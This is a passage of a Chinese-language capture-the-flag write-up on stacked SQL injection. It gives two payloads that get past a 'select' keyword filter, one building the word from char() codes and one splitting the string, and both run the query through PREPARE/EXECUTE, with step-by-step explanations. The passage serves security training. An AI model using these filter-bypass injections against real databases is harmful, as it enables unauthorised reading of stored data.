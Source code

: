 ![a55bb86c7ec276a80fce5faf555e5e90.png](img/61105905447ffee1a78323a725fd396b.png)

法二:

我们知道只要绕过select语句，即可查询到目标表。这里可以预定义一个语句，利用concat拼接，然后执行查询目标。可以作为通法值得研究。我尝试的方法有两种：

(1).利用char()绕过

1';SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#

解析：

#闭合前面的语句

1';

#利用concat拼接出目标语句,char()方法绕过select

SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");

#利用prepare预定义一个语句，并将它赋给 sqla

PREPARE sqla from @sql;

#执行预定义的语句

EXECUTE sqla;#

(2).利用拼接绕过

payload：

1';

set @sql=CONCAT('se','lect * from `1919810931114514`;');

prepare stmt from @sql;

execute stmt;

解析：

#闭合前面的语句
